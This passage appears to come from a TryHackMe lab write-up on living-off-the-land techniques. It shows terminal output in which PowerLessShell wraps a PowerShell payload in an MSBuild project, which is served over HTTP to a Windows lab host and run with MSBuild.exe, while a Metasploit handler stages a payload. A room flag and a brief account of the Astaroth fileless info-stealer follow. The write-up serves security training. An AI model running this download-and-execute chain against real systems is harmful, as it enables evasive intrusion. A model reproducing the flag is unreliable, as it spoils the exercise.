 ```
[*] https://10.11.81.220:4444 handling request from 10.10.45.70; (UUID: dicek2ku) Staging x86 payload (176220 bytes) ...

──(kali㉿kali)-[~]
└─$ cd PowerLessShell 
                                                                                   
┌──(kali㉿kali)-[~/PowerLessShell]
└─$ python2 PowerLessShell.py -type powershell -source /home/kali/liv0ff.ps1 -output liv0ff.csproj
PowerLessShell Less is More
Mr.Un1k0d3r RingZer0 Team
-----------------------------------------------------------
Generating the msbuild file using include/template-powershell.csproj as the template
File 'liv0ff.csproj' created
Process completed
                                                                                   
┌──(kali㉿kali)-[~/PowerLessShell]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.45.70 - - [11/Sep/2022 00:17:12] "GET / HTTP/1.1" 200 -
10.10.45.70 - - [11/Sep/2022 00:17:15] "GET /liv0ff.csproj HTTP/1.1" 200 -
10.10.45.70 - - [11/Sep/2022 00:17:51] "GET /liv0ff.csproj HTTP/1.1" 304 -

download

C:\Users\thm>c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Downloads\liv0ff.csproj
Microsoft (R) Build Engine version 4.8.3761.0
[Microsoft .NET Framework, version 4.0.30319.42000]
Copyright (C) Microsoft Corporation. All rights reserved.

Build started 9/11/2022 4:18:39 AM.


```

![[Pasted image 20220910232033.png]]

*THM{23005dc4369a0eef728aa39ff8cc3be2}*

###  Real-life Scenario 

This task introduces a showcase of malware that used the techniques discussed in this room.

In 2017, The Windows Defender Advanced Threat Protection ([Windows Defender ATP](https://www.microsoft.com/security/blog/2018/11/15/whats-new-in-windows-defender-atp/)) Research Team discovered Fileless malware named Astaroth. A fileless malware means that the malware runs and is executed in the system without writing to disk. The malware performs all its functions from the victim device's memory.

Astaroth is known as an information stealer, which takes sensitive information from victim users, such as account credentials, keystrokes, and other data, and sends it to the attacker. The malware relies on various advanced techniques such as anti-debugging, anti-virtualization, anti-emulation tricks, process hollowing, NTFS Alternate Data Streams (ADS), and Living off the land binaries to perform different functions. 
